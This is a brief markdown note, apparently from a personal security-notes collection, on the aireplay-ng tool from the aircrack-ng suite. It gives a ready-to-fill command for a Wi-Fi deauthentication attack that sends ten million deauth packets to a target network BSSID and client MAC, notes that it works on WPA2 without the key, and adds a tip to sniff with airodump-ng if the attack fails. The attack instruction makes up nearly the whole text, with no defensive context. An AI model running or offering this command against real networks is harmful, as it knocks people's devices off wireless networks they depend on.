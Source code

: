 # aireplay-ng

* Part of the _aircrack-ng_ suit.

## Deauthentication Attack

* Works on encrypted networks (WEP, WPA & WPA2).
* No need to know network's key or connect to the network.

Try the following command with `PACKET_AMOUNT = 10000000`.

```
aireplay-ng --deauth <PACKET_AMOUNT> -a <TARGET_NETWORK_BSSID> -c <TARGET_STATION/CLIENT_MAC> <MONITOR_IF>
```

If the command fails, run `airodump-ng` along with it, to sniff network with the `--target` flag.